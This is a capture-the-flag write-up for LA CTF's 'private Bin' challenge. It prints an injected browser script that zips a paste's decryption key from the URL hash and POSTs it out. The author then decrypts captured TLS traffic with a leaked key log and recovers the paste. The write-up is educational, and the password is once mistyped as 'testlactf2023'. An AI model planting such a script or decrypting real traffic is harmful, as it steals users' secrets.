




# misc/private Bin (38 solves/481 points)

> As cybersecurity pioneers, we love to use end-to-end encrypted platforms so that even if we are hacked, the data is safe, right?
>
> Actually, it turns out taking https://github.com/scarsz/bin and ripping out the XSS protection wasn't a good idea (hey, it was messing up sending html code!), as someone reported that they noticed some weird script running in some bin files! I've attached a copy so you can take a look.
>
> In *completely unrelated news*, a certain 3-letter agency has told us that we need to get the contents of a certain paste someone uploaded. Problem is, it's kinda been deleted. Not to worry! While we promised no web logs, we have packet logs! I've already narrowed down the network traffic to only that user. Convenient that they were connected to our network, huh?
>
> P.S. the bin server is still online if you need it. I have kinda forgotten the url though, sorry ¯\\\_(ツ)\_/¯. It's hosted *somewhere* under lac.tf, and I'm sure you can figure it out using the packet capture.
>
> P.P.S. said 3-letter agency starts with an A, ends with an M, and has a C in it.
>
> P.P.P.S. No, there is no admin bot, and no, you do not need to hack the website. This is a MISC challenge, not a web one.

Provided:

- [`sus-script.html`](provided/sus-script.html)
- [`private-bin.pcapng.zip`](provided/private-bin.pcapng.zip)

## Solution

Obviously a good first step is to look at the files we're given :)
I stuck `sus-script.html` through a JavaScript beautifier to make it easier to look at and ended up with [sus-script-pretty.js](sus-script-pretty.js).
Really the only function that matters in it is `start`:

```javascript
async function start() {
    var t = window.location.hash.substr(1);
    extraText = await randtext(), await (zipWriter = new zip.ZipWriter(new zip.BlobWriter("application/zip"), {
        password: "testlactf123"
    })).add("key.txt", new zip.TextReader(t)), await zipWriter.add("secret.txt", new zip.TextReader(extraText));
    let e = await zipWriter.close();
    fetch(binurl, {
        method: "POST",
        headers: new Headers({
            "content-type": "text/plain",
            "actual-content-length": 1e4
        }),
        body: e
    });
    let a = document.getElementById("1");
    a.remove()
}
```

It looks like it zips two files into a zip archive encrypted with the password `testlactf2023`. `key.txt` contains the browser URL hash (the part after the `#`), and `secret.txt` looks to just include a bunch of randomly generated text.

As for the packet capture, what else to analyze it than Wireshark? (Obviously after extracting it :))

### pcap analysis

So there's 9073 packets in this packet capture which is...a lot to go through, to say the least.
At first glance it looks like most of the traffic is TLS or TCP, with the occasional (m)DNS or QUIC packet.
I figured I'd focus in on the TLS traffic since if I were to make a private pastebin service at the very least I'd use HTTPS :)
Also the challenge description mentions using end-to-end encryption which could entail the use of HTTPS.

Filtering only TLS packets in Wireshark reduces the total number of packets down to 1846, a whopping 80% decrease! Still a lot to go through though :)
On a whim, I decided to further filter to handshake packets, since I assumed that servers might transmit hostname information as part of the TLS handshake process.
Luckily I was correct about this (it's called [SNI](https://www.cloudflare.com/learning/ssl/what-is-sni/)), and we can then narrow my search even further with the `tls.handshake.extensions_server_name` filter, reducing our search space to only 59 packets!
We can also probably rule out QUIC since it's not widely used yet outside of Google (I think), leaving us 48 packets.

After sifting through those, I found this packet:

<div align="center">

</div>

So that gives us our URL: https://privatebin-0191c4fc.lac.tf/!
Now to check it out and see if we can find anything :)

### Poking around (and more packet capture)

The site appears to be pretty bare-bones when you visit it:

<div align="center">

</div>

The [`sslkey.log`](sslkey.log) file immediately got my attention, so let's check it out:

```text
# SSL key logfile generated by sslkeylog.c
SERVER_HANDSHAKE_TRAFFIC_SECRET 825d21627b269f5743f3c821516d066deca910f4c6bc3c59efa5a96e4ea639a4 baead9f0f61f45abbcbf5430d21633678d4616c7a380de7e2f61ab2fd0910876df1ebdc40ac42ad03bbd9e994c176a2f
CLIENT_HANDSHAKE_TRAFFIC_SECRET 825d21627b269f5743f3c821516d066deca910f4c6bc3c59efa5a96e4ea639a4 77788e83d07b8cb45e3f1fb74f779fa639e65bafd39abe9d1b75bdcc100e6a88a122f004695a439d980472ba4a7f77c2
EXPORTER_SECRET 825d21627b269f5743f3c821516d066deca910f4c6bc3c59efa5a96e4ea639a4 1da9704443dedb0d60b0f110cd527baa2e7a87a2c6c6e1956929f94cb1da7123595d6048e103933c9bbb7190bb4c1f7f
SERVER_TRAFFIC_SECRET_0 825d21627b269f5743f3c821516d066deca910f4c6bc3c59efa5a96e4ea639a4 342fd40bee3d96871efb920c2b9fd31f3f3ec28ca4391643d9224bf89e6030578f94d22f041d22cd20bf0e97266d3fc4
CLIENT_TRAFFIC_SECRET_0 825d21627b269f5743f3c821516d066deca910f4c6bc3c59efa5a96e4ea639a4 ef64e2624a9fb0918aff67ade2bc22fff148312b94ded02e34df605d12fd05ed68cc4fab2cd8141e244530ece58af3cf
SERVER_HANDSHAKE_TRAFFIC_SECRET d69c4149e99a2255b0b1d8320186642af4f7c14c487286df39d19675032064ff 37e576899196b5493d21a8a866bacd348ff8113ec151dd34d01db372c8783584
CLIENT_HANDSHAKE_TRAFFIC_SECRET d69c4149e99a2255b0b1d8320186642af4f7c14c487286df39d19675032064ff bf933e61428a254f7e39c739c7b045926302fa33316d6b01d092bbf2b8b6be1e
EXPORTER_SECRET d69c4149e99a2255b0b1d8320186642af4f7c14c487286df39d19675032064ff 5134ca3b163a7df2949fe9dd3579cd038e399303a0193c9ba78f7999ba0cb101
SERVER_TRAFFIC_SECRET_0 d69c4149e99a2255b0b1d8320186642af4f7c14c487286df39d19675032064ff e5fd9a9604f05c736a2e8a29e7d9593e9ccd39647ee26bf267b5bb5acb50055f
SERVER_HANDSHAKE_TRAFFIC_SECRET 410f5c874141f771e53bd121b22437bff9d9fb76e1b3e6ac37371c1f5acf8585 71f187a8d723559b8e7c0970b85c9aedf4befcfac7f5a2eecd5efa43e61e67a8
CLIENT_HANDSHAKE_TRAFFIC_SECRET 410f5c874141f771e53bd121b22437bff9d9fb76e1b3e6ac37371c1f5acf8585 65426ac1e38269745ebda56f5607ef07f80cac21c1606456f9543729c0fc1441
EXPORTER_SECRET 410f5c874141f771e53bd121b22437bff9d9fb76e1b3e6ac37371c1f5acf8585 b7994e45675491e826723eb84c0604f3e76d66878008ad17794ce556d9d05ac0
SERVER_TRAFFIC_SECRET_0 410f5c874141f771e53bd121b22437bff9d9fb76e1b3e6ac37371c1f5acf8585 8357f0e726504dc1fd446ecf1c5940e307447ca032cf23402982b549915bbad9
CLIENT_TRAFFIC_SECRET_0 410f5c874141f771e53bd121b22437bff9d9fb76e1b3e6ac37371c1f5acf8585 94b5d28125de4b5a573800e1d7f43208673cc548e576671c04edaf96ae3985c2
CLIENT_TRAFFIC_SECRET_0 d69c4149e99a2255b0b1d8320186642af4f7c14c487286df39d19675032064ff ecd07b87f9494d107ba26fc9d1728a910f353a37cddc339e1eedcd1154ce38fc
SERVER_HANDSHAKE_TRAFFIC_SECRET 0c3b6ac2a7250483662b8c655a0b1b0b432e30f2fa182f5cd1cb02850d9cb09a 9bb0f3cde97bae3c4e013d6674e965cb49264300606f8e9ec9d85693369883d6
CLIENT_HANDSHAKE_TRAFFIC_SECRET 0c3b6ac2a7250483662b8c655a0b1b0b432e30f2fa182f5cd1cb02850d9cb09a 7a0551452abbd6759fd6399934c1114586e3fef7c0c1ed1480454fc9bbef5c0f
EXPORTER_SECRET 0c3b6ac2a7250483662b8c655a0b1b0b432e30f2fa182f5cd1cb02850d9cb09a 1ff771e1dd8b4139722c59a2e62dcbb337e34b67db995cd3eebbfbd95d1d6163
SERVER_TRAFFIC_SECRET_0 0c3b6ac2a7250483662b8c655a0b1b0b432e30f2fa182f5cd1cb02850d9cb09a 1160349b04865ece1ab4c82a05f4dc0a22f1b0c858084285f94b141c69f7d32a
CLIENT_TRAFFIC_SECRET_0 0c3b6ac2a7250483662b8c655a0b1b0b432e30f2fa182f5cd1cb02850d9cb09a 54f65ac6650b8b0f9b76dda1fa3242cd00d6e0f1e307af713f23c11d4ebb2c9e
```

That's a lot of stuff :)
As it turns out, though, you can actually use files like these to decrypt TLS traffic in Wireshark!
[This wiki page](https://wiki.wireshark.org/TLS#using-the-pre-master-secret) conveniently goes through the process of exactly how to do this.
With that in hand, we can check if any TLS traffic was in fact decrypted using the filter `tls and (http or http2)`:

<div align="center">

</div>

Neat!
We can then use the File -> Export Objects menu to download any files sent over HTTPS.
I ended up downloading [`1cca80be-1b8a-4837-bdb1-cb56199e6cd7.json`](pcap-contents/1cca80be-1b8a-4837-bdb1-cb56199e6cd7.json), [`1cca80be-1b8a-4837-bdb1-cb56199e6cd7.html`](pcap-contents/1cca80be-1b8a-4837-bdb1-cb56199e6cd7.html), and [the zip file sent by the script](pcap-contents/data.zip) since they were the only things that looked interesting.

I decided to unzip the attacker's data first, since we know it contains `key.txt` which is probably important.
We also know that it's encrypted with the password `testlactf123`, which is clearly a very strong password :)

For some reason plain old `unzip` didn't want to do that because of a version issue, so I ended up using `p7zip` instead:

```shell
$ 7z x data.zip

7-Zip [64] 17.04 : Copyright (c) 1999-2021 Igor Pavlov : 2017-08-28
p7zip Version 17.04 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,20 CPUs x64)

Scanning the drive for archives:
1 file, 138003 bytes (135 KiB)

Extracting archive: data.zip
--
Path = data.zip
Type = zip
Physical Size = 138003


Enter password (will not be echoed): # testlactf123
Everything is Ok

Files: 2
Size:       203307
Compressed: 138003
```

Neat! That gives us `key.txt` and `secret.txt`.
The latter does indeed appear to be a bunch of random characters (141 KB of random characters, to be precise), but key.txt does look interesting.
It just contains the string `3cVSg0HRNq8SmAezph2ZBDl6B4WeEcAg`, which just so happens to be 32 characters long.
Based on the readme for the [`Bin`](https://github.com/scarsz/bin) project this is based off of, pastes should be encrypted with AES-128 or AES-256; the key size for AES-256 is 256 bits or 32 bytes, so that string could definitely be an AES key.

Let's dig a bit deeper into the actual decryption code in the HTML file we downloaded:

```javascript
function decrypt(key, b64data) {
    info("Decrypting " + b64data.substr(0, 32) + "... [" + base64js.byteLength(b64data) + " bytes]");
    const bytes = base64js.toByteArray(b64data);
    const iv = bytes.subarray(0, 16);
    const data = bytes.subarray(16);
    if (data.length % 16 != 0) {
        throw new Error("Data length was not multiple of 16");
    }
    // console.log("Vector [" + iv.length + "] -> " + iv);
    // console.log("Encrypted data -> " + data.length + " bytes, decrypting...");
    const aes = new aesjs.ModeOfOperation.cbc(key, iv); // <--- owo what's this?
    const decrypted = aes.decrypt(data);
    const unPadded = decrypted.subarray(0, decrypted.byteLength - decrypted[decrypted.byteLength - 1]);
    // console.log("Decrypted data -> " + unPadded.length + " bytes");
    // const decoded = aesjs.utils.utf8.fromBytes(unPadded);
    // console.log("Decoded -> " + decoded);
    // return decoded;
    return unPadded;
}
```

I've conveniently marked the interesting like with a comment :)
Based on that, we know that the pastes are encrypted with AES in CBC mode with a user-provided key (likely the one from `key.txt`) and the IV in the first 16 bytes of the encrypted paste.

The (encrypted) files themselves are present in the json file we exported from Wireshark.
I ended up writing a [quick Python script](decrypt.py) as always to automate the process of decrypting them, and ended up with two files:

```shell
$ python decrypt.py
Writing flag.png (type: image/png)
Writing test copy.html (type: text/html)
```

[`test copy.html`](decrypted/test%20copy.html) as it turns out is just `sus-script.html` but with the real URL of the pastebin server :)

`flag.png` sounds interesting though:

<div align="center">

</div>

And there's our flag! `lactf{e2e_encryption_is_only_as_safe_as_the_client_1dc5f2}`.
Even though the client did send their password over HTTPS (that we were able to decrypt), it does make one think about why a "private" pastebin host would monitor all network traffic and store TLS session secrets in a publicly accessible place :)
